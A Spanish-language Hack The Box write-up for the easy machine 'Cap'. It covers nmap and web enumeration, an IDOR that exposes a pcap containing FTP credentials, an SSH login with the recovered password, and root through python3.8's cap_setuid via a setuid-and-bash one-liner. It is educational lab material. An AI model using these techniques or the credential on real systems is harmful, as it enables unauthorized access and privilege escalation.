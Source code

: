 Maquina: Cap

Autor:

Dificultad: Facil

![Screenshot 2024-11-10 111524](https://github.com/user-attachments/assets/cf2ef35d-5faa-437e-a508-947c1639c15d)

Verificamos que la máquina está activa haciendo un ping.

ping -c 1 10.129.140.249 –R

![Screenshot 2024-11-10 111659](https://github.com/user-attachments/assets/950133a3-a0db-4605-8f9c-a3e283f306a5)

Vemos que el ping nos responde con el ttl de la máquina de 63, maquina Linux, que en realidad serían 64 pero HTB por la conexión con un nodo intermediario, lo reduce en 1 unidad.

Enumeración: Usamos Nmap para escanear y descubrir posibles vulnerabilidades. Aquí es donde la curiosidad se convierte en acción.

Sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.140.249 -oG Escaneo

![Screenshot 2024-11-10 111922](https://github.com/user-attachments/assets/be35e9a9-7f69-4385-850d-ba1d154a603f)

Una vez comprobado que la máquina está activa, vamos a lanzar un nmap con permisos de root para ver qué puertos están abiertos y exportar el resultado en un fichero llamado Escaneo.
Después el escaneo me devuelve que los puertos 21 ftp, 22 ssh y 80 http están abiertos.

Sabiendo que estos puertos están abiertos, lo que hacemos a continuación es lanzar un comando completo que recoja todo:
sudo nmap -sCV -p- --open --min-rate 5000 -n -vvv -Pn 10.129.140.249 -oG Scan 

![Screenshot 2024-11-10 112556](https://github.com/user-attachments/assets/1874e781-9e82-4a55-b36e-c2aa689057d8)

Explotación:

El puerto 80 es un panel admin

usamos gobuster

gobuster dir -u http://10.129.140.249/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 50

![Screenshot 2024-11-10 120056](https://github.com/user-attachments/assets/5f75b5dc-2652-4e9b-8630-e165d7dfac8a)

enumeramos /data con wfuzz

wfuzz -u http://10.129.140.249/data/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --hc 302,404

![Screenshot 2024-11-10 121157](https://github.com/user-attachments/assets/f8dbbe06-9035-42b5-a2a4-5c2f1fc888c8)

Ataque IDOR (Insecure Direct Object Reference)
Parece que la opción «Security Snapshot» de la izquierda 
(si haces hovering la ruta es /capture ) va cambiando y 
generando nuevas urls con la opción de poder Descargar esa información.

Probamos con incluir un valor directamente de cero en la ruta para ver la respuesta, y efectivamente nos devuelve información con la opción de descargarnos el informe, por lo que nos lo descargamos y lo analizamos para ver qué contiene.
Parece que modificando el valor de la ruta puedemos acceder a información que de forma natural de funcionamiento de la página no tendrías, por lo que estamos ante un posible ataque IDOR.

http://10.129.140.249/data/0

![Screenshot 2024-11-10 121242](https://github.com/user-attachments/assets/13e548c4-98e7-4ed4-b5da-e6b364e8226f)

nos bajamos el documento .pcap

![Screenshot 2024-11-10 121257](https://github.com/user-attachments/assets/3d9532f2-ab32-4fc6-8b41-ec6678b1f170)

Lo abrimos con wireshark y vemos que hay muchos ftp requests 

aplicamos el filtro para ver solo ftp requests y encontramos un username y un password

![Screenshot 2024-11-10 122357](https://github.com/user-attachments/assets/72d8d056-bce5-4838-879e-a63f31924ce4)

entramos por ssh

ssh nathan@10.129.140.249
Buck3tH4TF0RM3!

![Screenshot 2024-11-10 122707](https://github.com/user-attachments/assets/f4794c4b-12e9-4852-ad31-e2f60ad95829)

ls

cat user.txt

![Screenshot 2024-11-10 122734](https://github.com/user-attachments/assets/32d8d458-c39f-4099-b985-69416f055078)

Sin embargo este usuario no tiene permisos de root en la máquina.

Escalada de privilegios: 
ESCALADA DE PRIVILEGIOS CON CAPABILITES
En este punto, vemos los permisos id y de sudoers por si ese usuario pudiera tener permisos especiales de ejecución como root, y parece que no.

Id

![Screenshot 2024-11-10 122804](https://github.com/user-attachments/assets/424ea4c3-8813-4bac-9452-5f2ecb161c51)

Teniendo eso en cuento vamos a ver si hay algún binario que nos permite abusar del privilegio de root.
Con esta línea vamos a buscar archivos con el bit SUID (Set User ID) activado. El valor 4000 representa este permiso especial en octal. Los archivos con este permiso se ejecutan con los privilegios de su propietario (root), incluso si quien los ejecuta es un usuario diferente.

find / -perm -4000 -user root 2>/dev/null

![Screenshot 2024-11-10 123605](https://github.com/user-attachments/assets/0a9c0f4c-1e1b-46be-bb9f-70d4f1fea9de)

Hay muchos pero son los comunes por lo que parece que no podemos abusar de ninguno.
Teniendo en cuenta que la máquina se llama «Cap» es posible que mediante la opción de Linux Capabilities podamos encontrarlas y vemos si un archivo vulnerable o mal configurado tiene el bit SUID activo y es propiedad de root, y así cualquier usuario como Nathan puede ejecutarlo con privilegios de root.

getcap -r / 2>/dev/null

![Screenshot 2024-11-10 123619](https://github.com/user-attachments/assets/e16d5af2-11fa-433b-9ef7-192343e926ba)

Si vemos la línea de python 3.8 , este archivo tiene las siguientes capabilities:
cap_net_bind_service: Permite que el archivo pueda asociarse a puertos de red por debajo del 1024, que normalmente requieren permisos de root.
cap_setuid: Permite que el archivo cambie su UID efectivo (identificador de usuario). Esto es importante porque podría usarse para cambiar de usuario, lo que en ciertos casos podría permitir la escalación de privilegios.
Posible riesgo: La combinación de estas capabilities significa que cualquier script o proceso que use python3.8 podría, en teoría, manipular puertos de red y cambiar su UID.

Linux Capabilities es un sistema más granular que permite asignar permisos específicos a un proceso en lugar de usar el sistema SUID, que otorga todos los permisos de root. Capabilities divide los permisos de root en unidades más pequeñas (capabilities), como CAP_NET_ADMIN para administración de red o CAP_SYS_MODULE para cargar módulos del kernel. Esto ayuda a mejorar la seguridad al evitar la necesidad de usar SUID en muchos casos.

Si ahora vamos a GTFObins en Python y Capabilities , podemos ver el CAP_SETUID que podemos aplicar para comprometer la máquina.

Ajustas la petición teniendo en cuenta lo anterior, y ya tendríamos permisos de root y podríamos acceder a la flag de root:

python3.8 -c 'import os; os.setuid(0); os.system("bash")’

![Screenshot 2024-11-10 123803](https://github.com/user-attachments/assets/9ab61011-d93b-4393-b5a8-4f1a850ba260)

whoami

Cd /root
ls
Cat root.txt

![Screenshot 2024-11-10 124030](https://github.com/user-attachments/assets/42b5f893-9da5-46d5-86d3-6b3367fbe5ad)

¡Pwned!













